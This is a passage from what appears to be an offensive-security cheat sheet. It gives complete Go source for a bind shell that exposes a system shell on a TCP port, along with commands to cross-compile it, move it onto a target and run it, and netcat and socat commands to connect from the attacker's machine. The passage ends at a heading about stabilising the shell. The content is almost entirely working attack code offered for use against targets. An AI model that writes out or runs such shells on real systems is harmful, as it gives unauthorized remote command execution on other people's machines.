 #### Golang

##### Simple Go Bind Shell (compile on attacker, transfer to target)

**1. Create `bindshell.go` on your attacker machine:**
```go
package main

import (
	"net"
	"os/exec"
)

func main() {
	listener, _ := net.Listen("tcp", "0.0.0.0:<PORT>")
	conn, _ := listener.Accept()
	cmd := exec.Command("/bin/sh") // For Windows, use "cmd.exe"
	cmd.Stdin = conn
	cmd.Stdout = conn
	cmd.Stderr = conn
	cmd.Run()
}
```

**2. Compile for the target architecture (e.g., Linux x64):**
```bash
GOOS=linux GOARCH=amd64 go build -o bindshell bindshell.go
```
* `GOOS`: Target Operating System (e.g., `linux`, `windows`, `darwin`)
* `GOARCH`: Target Architecture (e.g., `amd64`, `386`, `arm`)

**3. Transfer `bindshell` binary to target and execute:**
```bash
./bindshell
```
(For Windows, it would be `bindshell.exe`)

### Attacker (Connecting to Bind Shell)

Once the bind shell is running on the target, connect to it from your attacking machine.

#### Netcat
```bash
nc <TARGET_IP> <PORT>
```

#### Socat
```bash
socat STDIO TCP:<TARGET_IP>:<PORT>
```

---

## Stabilizing Your Shell (After Initial Connection)
